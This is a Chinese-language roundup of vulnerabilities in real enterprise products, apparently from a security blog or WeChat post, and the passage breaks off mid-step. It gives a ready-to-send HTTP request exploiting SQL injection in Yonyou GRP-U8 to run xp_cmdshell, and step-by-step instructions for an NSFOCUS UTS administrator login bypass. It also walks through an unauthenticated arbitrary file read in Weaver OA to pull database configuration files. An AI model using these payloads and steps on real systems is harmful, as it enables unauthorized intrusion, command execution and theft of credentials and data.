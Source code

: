 网友称以下两个历史漏洞仍然可以复现。

https://www.uedbox.com/post/21626/

https://www.uedbox.com/post/22193/

2、用友 GRP-u8 注入

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicEYiaZjXJQic5ic25SpakRvPOZJQSE1R9xsico6E92XYHIMHVRLWVFfDdKyg/640?wx_fmt=png)

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp\_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

```

3、绿盟 UTS 综合威胁探针管理员任意登录

逻辑漏洞, 利用方式参考（https://www.hackbug.net/archives/112.html）

1、修改登录数据包 {"status":false,"mag":""} -> {"status":true,"mag":""}

2、/webapi/v1/system/accountmanage/account 接口逻辑错误泄漏了管理员的账户信息包括密码（md5）

3、再次登录, 替换密码上个数据包中 md5 密码。

4、登录成功。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicEs9o9BvmL5xm2ODFNYQicqVI8BO6ZyckvKNL39riajCVzArUBJgASE76Q/640?wx_fmt=png)

4、WPS Office 图片解析错误导致堆损坏，任意代码执行。

看上去 (算了看不懂... , 漏洞利用可能导致拒绝服务。

相关参考:

http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html

以上内容均为网友分享, 作者并未实际复现。  

5、「最新」泛微 OA 云桥任意文件读取  

来源: 微步情报局

未授权任意文件读取,/wxjsapi/saveYZJFile 接口获取 filepath, 返回数据包内出现了程序的绝对路径, 攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。  

1、 downloadUrl 参数修改成需要获取文件的绝对路径, 记录返回包中的 id 值。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7TLAfCC3eicZeiatLHb6PtFQKpmtXbajxJeCjHCBYqpibImvE1DOSubqOjI9tXr1q5XPibbsFJzsI89RQ/640?wx_fmt=png)

2、通过查看文件接口访问 /file/fileNoLogin/id

